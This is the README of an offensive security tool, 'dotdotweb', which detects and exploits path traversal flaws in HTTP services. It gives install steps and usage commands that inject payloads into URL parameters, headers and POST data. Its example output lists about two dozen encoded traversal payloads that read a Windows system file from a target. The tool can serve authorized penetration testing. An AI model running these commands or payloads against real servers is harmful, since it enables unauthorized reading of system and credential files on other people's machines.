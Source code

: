 dotdotfarm
==========

![Version](https://img.shields.io/badge/version-1.7.1-blue?style=for-the-badge)

Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services


Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make up to ~3K requests per second

Features
--------
- using asynchronous requests for increasing scan of target
- ability to fetch files' content after succeeding a payload
- specifying payload in any part of query (URL, headers or POST data)
- using callbacks for handling of results

Installation
============
Install from PyPi
```bash
pip install dotdotfarm
```
You can also install it directly from GitHub repository
```bash
git clone https://github.com/treddis/dotdotfarm.git
cd dotdotfarm
pip3 install .
```
To upgrade tool run
```bash
pip install --upgrade dotdotfarm
```

Usage
=====
```text

    .___      __      .___      __    _____                      
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____  
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \ 
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/ 
     
usage: dotdotweb [-h] [--version] [-V] [-A] [-R] [-o {windows,linux}]
                 [-d DEPTH] [-f FILE] [--delay DELAY]
                 [-t TIMEOUT] [-fs FS] [-fc FC] [--header HEADERS] [--data DATA]
                 url

fast path traversal identificator & exploit

positional arguments:
  url                   target URL

options:
  -h, --help            show this help message and exit
  --version             print version of the tool
  -V, --validate        validate files' content after successfull exploitation
                            (default false)
  -A, --all             try all files after successfull exploitation
                            (default false)
  -R, --print-files     read traversed files (default false)
  -o {windows,linux}, --os-type {windows,linux}
                        target OS type (default all)
  -d DEPTH, --depth DEPTH
                        depth of PT searching (default 5)
  -f FILE, --file FILE  specific file for PT detection
  --delay DELAY         make delays between requests in milliseconds (default 0)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections (default 60)
  -fs FS                filter output by size
  -fc FC                filter output by response code
  --header HEADERS      custom header for requests
  --data DATA           specify POST data
```

### Passing payload in GET parameters
Passing brute parameters via `?par=val` pairs:
```text
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

### Passing payload in headers
Passing brute parameters via `Origin: master=FUZZ` pairs:
```text
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

### Passing payload in POST data
Passing brute parameters via POST data parameters
```text
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

### Using regexp to filter responses
Pass -fs (filter by size) or -fc (filter by status code) to filter out not related responses
```text
dotdotweb -fc 50*,4* -fs 18??,1834* http://someserver.com:1234/testpath/FUZZ
```

### Launch callbacks on responses
You can launch callbacks on your responses to perform some check or make other actions.
In the box implemented callbacks:
- validate response content using regexp and print then (-V). You can pass your regexp too!
- try all payloads even entry point is found (-A)
- read traversed files content and print them on screen (-P)

Example output
==============
```text
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```
